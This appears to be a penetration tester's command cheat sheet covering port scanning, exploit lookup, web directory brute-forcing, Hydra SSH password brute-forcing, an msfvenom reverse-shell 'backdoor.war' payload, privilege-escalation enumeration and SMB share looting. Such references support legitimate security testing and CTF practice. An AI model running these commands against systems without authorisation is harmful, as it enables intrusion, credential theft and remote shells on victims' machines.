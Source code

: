 # Starting Penetration

```
msfconsole
```

To Open metasploit console

## Port Scan

```
nmap IP -sV -sC -p- --min-rate 20000
```

alternate

```
nmap IP -T4 -A -v
```

-p- to scan all ports

20k rate probably way too high. Reduce to reduce risk of alerting firewall.

-sS for TCP SYN Scan

-sV to show services related to each port


### Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

### Find Exploits with SearchSploit

```
searchsploit servicename version
```

### Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



### Metadata

```
exiftool file
```

### Web Server:


#### Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

#### Replicate website on local storage

```
wget http://ip/ -r
```

#### Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## SSH

### SSH with RSA file

```
ssh -i /path/to/file user@IP
```


#### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


## Apache

### After /manager breach

#### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```



## Attempt to Elevate permissions after entry

##### Run Inside of Meterpreter

```
run post/multi/recon/local_exploit_suggester
```

Gives readout of possible vulnerabilities of connected host

### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```



### Linux Specific

whoami

#### LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

#### Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```



### Samba share

##### Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

##### Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


#### Inspect Samba Share

```
smbclient //ip/sambashare
```


#### Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

